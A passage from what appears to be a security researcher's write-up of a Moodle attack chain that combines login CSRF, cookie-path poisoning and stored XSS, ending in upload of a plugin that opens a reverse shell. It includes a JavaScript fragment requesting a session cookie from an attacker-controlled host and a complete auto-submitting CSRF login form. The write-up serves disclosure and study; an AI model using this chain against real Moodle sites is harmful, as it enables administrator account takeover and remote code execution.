 ```js
    req.open("GET", `${attackerRoot}/cookie.php`);
    req.send();

} else { // Second stage
  ...
```

This script will check if a cookie named `poisoned` is set in the browser. If it is not, it will set this cookie, and request a session cookie belonging to the attacker account from the [cookie.php](https://github.com/danielthatcher/moodle-login-csrf/blob/master/cookie.php) script[^2] which it then puts in the `MoodleSession` cookie with a path of `/my/`. The script then causes a logout from the attacker account, which does not invalidate the newly set session cookie as it involves requests to path outside of `/my/`.

[^2]: The attacker’s server must return the header Access-Control-Allow-Origin: * or equivalent along with the result of this script to allow the value to be read by JavaScript cross-domain on line 10.

If the `poisoned` cookie is present then the script will execute the final XSS payload, which I will discuss later.

### Attack
The attacker now targets their victim user, in this case the owner of the *admin* account, with a simple login CSRF payload such as the one below which logs the victim in to the attacker account.

```html
<html>
  <body>
    <form action="http://moodle.lab.local/login/index.php" method="POST" id="loginform">
      <input type="hidden" name="anchor" value="" />
      <input type="hidden" name="username" value="attacker" />
      <input type="hidden" name="password" value="Password1!" />
    </form>
    <script>
      document.getElementById("loginform").submit();
    </script>
  </body>
</html>
```

This will cause the victim to view the dashboard of the *attacker* account, and the script from the previous subsection to be run in their browser. The victim will then have the `poisoned` cookie and a session cookie belonging to the *attacker* account set in their browser with a path of `/my/`, following which they will be logged out.

The next time the victim logs in to the *admin* account in the same browser, they will be able to browse all of the Moodle installation apart from their dashboard, including the admin panel, as normal. However, the request to `/my/` to load their dashboard will return the dashboard of the attacker account with the included script. This script performs the second stage of the attack due to the presence of the `poisoned` cookie in the browser.

### Final payload
Popping an alert box or [loading in DOOM](https://labs.detectify.com/2017/07/27/how-we-invented-the-tesla-dom-doom-xss/) doesn’t obviously show impact here as it will show up on the dashboard of the *attacker* account rather than the *admin* account. Since we can still make requests to the *admin* panel as the *admin* account, I decided to upload a [malicious plugin](https://github.com/danielthatcher/moodle-login-csrf/tree/master/shell) using JavaScript. This plugin gives the *attacker* a reverse shell using the [version.php](https://github.com/danielthatcher/moodle-login-csrf/blob/master/shell/version.php#L26) file.


[^1]: Other browsers untested.
[^3]: Again this needs to be returned with the Access-Control-Allow-Origin: * header.